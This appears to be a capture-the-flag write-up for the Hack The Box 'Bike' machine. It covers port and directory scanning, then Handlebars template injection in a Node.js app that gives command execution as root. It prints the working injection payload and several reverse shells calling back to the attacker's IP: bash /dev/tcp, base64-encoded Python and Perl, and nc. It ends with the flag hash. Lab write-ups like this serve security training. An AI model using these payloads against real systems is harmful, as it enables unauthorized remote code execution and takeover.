








## Bike
## Very Easy


## Start (09/10/2023)

- Nmap
  ```bash

  nmap -sV -T4 -sC -oN bike.nmap bike.htb

  Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-10 21:21 EDT
  Nmap scan report for bike.htb (10.129.89.151)
  Host is up (0.25s latency).
  Not shown: 998 closed tcp ports (conn-refused)
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
  |   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
  |_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
  80/tcp open  http    Node.js (Express middleware)
  |_http-title:  Bike
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 28.67 seconds


  nmap -sV -p- -T4 -sC -oN bike.nmap bike.htb

  Nothing different

  ```

- Gobuster:
  ```bash
  gobuster dir -u http://bike.htb/  -x .js,.php,.jpg,.txt,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  Nothing Interesting

  gobuster vhost -u vulnnet.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --append-domai

  Gave me an error

  Error: error on running gobuster: unable to connect to http://vulnnet.thm/: Get "http://vulnnet.thm/": dial tcp 10.10.6.125:80: i/o timeout (Client.Timeout exceeded while awaiting headers)

  ```

- Nikto:
  ```bash

  nikto -h bike.htb


  + Server: No banner retrieved
  + /: Retrieved x-powered-by header: Express.
  + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
  + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
  + No CGI Directories found (use '-C all' to force check all possible dirs)
  + OPTIONS: Allowed HTTP Methods: GET, HEAD, POST .
  + /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
  + 7980 requests: 14 error(s) and 5 item(s) reported on remote host
  + End Time:           2023-09-10 21:44:47 (GMT-4) (822 seconds)
  ---------------------------------------------------------------------------
  + 1 host(s) tested


  ```

- Node.js huh? Okay I wonder if it is open...
- 
- 
- `web_v2_Beta_final_final.zip`, I wonder if this will have any purpose later
- Trying Gobuster
- It looks like I can put in a an email address and then it spits it back out:
- 
- there seems to be some restrictions on this site because gobuster is complaining:
- 
- Maybe gobuster is not the way
- Nikto
- Canceling Gobuster...trying a vhost scan
- Didn't work, got an error
- Trying it through burp
- 
- Messing about, not getting much, it translates a few special chars to hex for me, but no major or interesting items
- Tried a few basic sql injects but it doesn't seem to error or anything:
  ```bash

  email=hello%40hello.com')+or+('1'%3d'1--&action=Submit

  We will contact you at: hello@hello.com&#x27;) or (&#x27;1&#x27;&#x3D;&#x27;1--

  ```

- doesn't feel like sql injection
- From the header via burp I see:
  ```bash

  HTTP/1.1 200 OK
  X-Powered-By: Express
  Content-Type: text/html; charset=utf-8
  Content-Length: 1145
  ETag: W/"479-ClsuZX6zNVHA9kKj1mKiQ/mYLYU"
  Date: Mon, 11 Sep 2023 01:43:50 GMT
  Connection: close

  ```
- the "X-Powered-By: Express" means probably that this app is using express.js via node.js
- need to find something that can scan this type of web app
- Nikto didn't seem to return anything useful
- When I was experimenting with burp I managed to error out the app:
  ```bash
  POST / HTTP/1.1
  Host: bike.htb
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://bike.htb/
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 9
  Origin: http://bike.htb
  Connection: close
  Upgrade-Insecure-Requests: 1

  hello=one

  ----

  Error: You must pass a string or Handlebars AST to Handlebars.compile. You passed undefined<br> &nbsp; &nbsp;at Object.compile (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:501:11)<br> &nbsp; &nbsp;at HandlebarsEnvironment.hb.compile (/root/Backend/node_modules/handlebars/dist/cjs/handlebars.js:39:40)<br> &nbsp; &nbsp;at router.post (/root/Backend/routes/handlers.js:13:29)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/root/Backend/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/root/Backend/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/root/Backend/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/root/Backend/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /root/Backend/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/root/Backend/node_modules/express/lib/router/index.js:341:12)<br> &nbsp; &nbsp;at next (/root/Backend/node_modules/express/lib/router/index.js:275:10)

  ```

- This exposes a few backend links, but I can't get to any of them
- So `Error: You must pass a string or Handlebars AST to Handlebars.compile` is interesting since it looks like you can pass code directly to whatever handlebars is. Maybe I can pass some js?

- Too bad I know very little about javascript
- It looks like it might be a Server Side Template Injection (SSTI) via handlebars engine, as referenced here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
- Just the examples I got from this site did not work
- I think I'm close

- Okay I used burp's "Decoder" tab to convert the payload I got from Hacktricks to url so:
- 
- Nice that returns a different error:
  ```bash

  POST / HTTP/1.1
  Host: bike.htb
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://bike.htb/
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 1542
  Origin: http://bike.htb
  Connection: close
  Upgrade-Insecure-Requests: 1

  email=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%77%68%6f%61%6d%69%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d

  ------

  ReferenceError: require is not defined<br> &nbsp; &nbsp;at Function.eval (eval at &lt;anonymous&gt; (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23)), &lt;anonymous&gt;:3:1)<br> &nbsp; &nbsp;at Function.&lt;anonymous&gt; (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/with.js:10:25)<br> &nbsp; &nbsp;at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), &lt;anonymous&gt;:5:37)<br> &nbsp; &nbsp;at prog (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/runtime.js:221:12)<br> &nbsp; &nbsp;at execIteration (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:51:19)<br> &nbsp; &nbsp;at Array.&lt;anonymous&gt; (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:61:13)<br> &nbsp; &nbsp;at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), &lt;anonymous&gt;:12:31)<br> &nbsp; &nbsp;at prog (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/runtime.js:221:12)<br> &nbsp; &nbsp;at Array.&lt;anonymous&gt; (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/with.js:22:14)<br> &nbsp; &nbsp;at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), &lt;anonymous&gt;:12:34)
  ```

- So now I'm very sure that we are injecting code, but it still errors, how to make it run...
- After doing some major cheating I found this:
  ```bash

  {{#with "s" as |string|}}
  {{#with "e"}}
  {{#with split as |conslist|}}
    {{this.pop}}
    {{this.push (lookup string.sub "constructor")}}
    {{this.pop}}
    {{#with string.split as |codelist|}}
      {{this.pop}}
      {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
      {{this.pop}}
      {{#each conslist}}
        {{#with (string.sub.apply 0 codelist)}}
          {{this}}
        {{/with}}
      {{/each}}
    {{/with}}
  {{/with}}
  {{/with}}
  {{/with}}

  ```

- so basically I was on the correct path I just didn't want to spend hours researching node js code exectutions. Essentially what above code does is returns the Node.js process' "mainModule" which is the "main" for the whole app. Apparently the "main" is not sandboxed normally so you can get away with code exec that isn't avaliable in the current process (which is sandboxed). Once the mainModule is loaded you can call 'child_process' module which is default for most Node.js instances and this allows for running commands with the "execSync" function call. THUS:
- 
- It returned the user that is running Node.js which is conveinitly root
- Now for a reverse shell, just going to try a simple bash one:
  ```bash

  {{#with "s" as |string|}}
  {{#with "e"}}
  {{#with split as |conslist|}}
    {{this.pop}}
    {{this.push (lookup string.sub "constructor")}}
    {{this.pop}}
    {{#with string.split as |codelist|}}
      {{this.pop}}
      {{this.push "return process.mainModule.require('child_process').execSync('bash -i >& /dev/tcp/10.10.16.18/4444 0>&1');"}}
      {{this.pop}}
      {{#each conslist}}
        {{#with (string.sub.apply 0 codelist)}}
          {{this}}
        {{/with}}
      {{/each}}
    {{/with}}
  {{/with}}
  {{/with}}
  {{/with}}

  ```

  ```bash

  nc -lvnp 4444

  ```

- Trying...didn't work, trying another reverse shell
- Need something cleaner
- It looks like I cannot use " or ' for anything
- So I need a reverse shell without " or '
- I can use base64 it looks like to encode/decode:
  ```bash

  echo "echo hello world" | base64 | base64 -d | bash

  hello world

  ```
- thus lets do that for a reverse shell
  ```bash

  echo ZXhwb3J0IFJIT1NUPSIxMC4xMC4xNi4xOCI7ZXhwb3J0IFJQT1JUPTQ0NDQ7cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc= | base64 -d | bash

  ```

- it worked, but python doesn't seem to be installed, so the shell failed...

- need to find something
  ```bash

  which ncat; which nc; which socat; which perl; which ruby; which awk

  /usr/bin/nc
  /usr/bin/perl
  /usr/bin/awk

  ```

- okay so above is on the server
- trying out nc
  ```bash

  nc -e /bin/bash 10.10.16.18 4444 

  ```
- says invalid option, but gives me the usage:
  ```bash

  usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]<br>	 &nbsp;[-m minttl] [-O length] [-P proxy_username] [-p source_port]<br>	 &nbsp;[-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]<br>	 &nbsp;[-X proxy_protocol] [-x proxy_address[:port]] 	 &nbsp;[destination] [port]<br>

  ```
- This?
  ```bash
  /bin/bash | nc 10.10.16.18 4444
  ```

- Yes! After I encoded that and sent it over via burp, I got my... nope didn't work!

- Perl???
  ```bash

  perl -e 'use Socket;$i="10.10.16.18";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

  ```

  ```bash

  echo ICBwZXJsIC1lICd1c2UgU29ja2V0OyRpPSIxMC4xMC4xNi4xOCI7JHA9NDQ0NDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsn | base64 -d | bash

  ```

- Nice! After I encoded the above to the url using burp I sent and got my shell!:
- 
- 

## Root.txt:6b258d726d287462d60c103d0142a81c